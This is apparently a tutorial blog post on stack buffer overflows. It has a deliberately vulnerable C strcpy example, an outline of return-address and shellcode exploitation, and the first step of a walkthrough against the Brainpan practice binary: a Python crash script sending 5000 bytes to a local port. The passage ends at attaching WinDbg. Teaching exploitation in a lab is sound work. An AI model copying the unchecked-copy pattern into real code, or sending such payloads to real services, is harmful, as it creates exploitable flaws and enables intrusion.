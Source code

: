 ## Stack Overflows

## What is a Stack Buffer Overflow?

A stack buffer overflow is a type of vulnerability that occurs when a program writes more data to a buffer on the stack than it was originally allocated to hold. Buffers are blocks of memory, typically arrays or character strings, that store temporary data. When a program doesn’t check the amount of data written to a buffer, it can overwrite other parts of the stack, which can cause unintended behavior, crashes, or security vulnerabilities.

In short, a stack buffer overflow happens when the data you’re writing exceeds the buffer’s allocated memory and begins to overwrite adjacent memory, potentially including the return address and local variables stored on the stack.

### Example of a Stack Buffer Overflow

Consider this C code:

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function(char *str) {
    char buffer[10];  // Allocate a small buffer of 10 bytes
    strcpy(buffer, str);  // Copy input into buffer without checking size
}

int main() {
    char *long_string = "This string is too long for the buffer!";
    vulnerable_function(long_string);
    return 0;
}
```

#### In this example:

1. The function vulnerable_function creates a buffer on the stack that can hold only 10 bytes.
2. The strcpy function copies the contents of long_string into buffer.
3. Since long_string is longer than 10 bytes, strcpy writes beyond the boundaries of buffer, causing a stack buffer overflow.

### Why Is a Stack Buffer Overflow Dangerous?

When the data overflows past the buffer, it overwrites nearby memory on the stack, which can include:

- Return addresses: Changing the return address can redirect the program’s execution flow, often to code provided by an attacker.
- Local variables and control structures: This can change the behavior of the function, possibly causing unexpected actions or program crashes.

### Exploiting a Stack Buffer Overflow

Attackers can exploit stack buffer overflows to inject and execute malicious code. Let’s break down how:

1. Controlling the Return Address: By carefully crafting the overflow data, an attacker can overwrite the return address with the memory address of their own malicious code.
2. Injecting Malicious Code: The attacker can place malicious code (often called shellcode) in memory, usually within the overflowed buffer.
3. Redirecting Execution: When the function returns, instead of returning to the caller, it jumps to the attacker’s code, effectively granting control over the program.

## Example of Exploitation

In this section we are going to exploit a binary called "Brainpan". You can download it here --> [brainpan.exe](/assets/binaries/brainpan.exe).

We have the following exploit template:

### Initial Crash

```py
import struct
import socket

TARGET_IP = "127.0.0.1"
TARGET_PORT = 9999
target = (TARGET_IP, TARGET_PORT) 

CRASH_LEN = 5000  # change me

payload = b"A" * CRASH_LEN

with socket.create_connection(target) as sock:
    sock.recv(512) 

    sent = sock.send(payload)
    print(f"sent {sent} bytes")

```

We start clicking at the binary to execute it.

![](/assets/img/more_images/2024-10-25-1.png)

Don't forget to attach the debugger to it, in this case I will use "WinDbg". Attach it and send the payload.

![](/assets/img/more_images/2024-10-25-2.png)
